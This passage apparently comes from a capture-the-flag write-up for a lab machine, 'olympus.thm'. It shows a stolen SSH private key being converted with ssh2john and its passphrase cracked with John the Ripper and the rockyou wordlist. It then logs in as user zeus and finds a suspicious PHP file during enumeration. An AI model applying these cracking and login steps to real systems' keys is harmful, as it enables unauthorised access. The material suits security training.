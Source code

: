 ```bash
$ ssh2john zeus.idrsa > zeus.idrsa.out

```
and


```bash
$  john --wordlist=/usr/share/wordlists/rockyou.txt zeus.idrsa.out
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (zeus.idrsa)
```

with the password we can now login as zeus

```bash
─$ ssh -i zeus.idrsa zeus@olympus.thm
Enter passphrase for key 'zeus.idrsa':
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 25 Aug 2022 08:02:19 PM UTC

  System load:  0.08              Processes:             125
  Usage of /:   45.1% of 9.78GB   Users logged in:       0
  Memory usage: 76%               IPv4 address for eth0: 10.10.84.56
  Swap usage:   0%


33 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 16 07:52:39 2022
zeus@olympus:~$
```
After a lot of enumeration a very promising file is found

```bash
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15 20:55 .
drwxr-xr-x 3 www-data www-data 4096 May  1 09:01 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14 09:54 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15 20:55 VIGQFQFMYOST.php
```
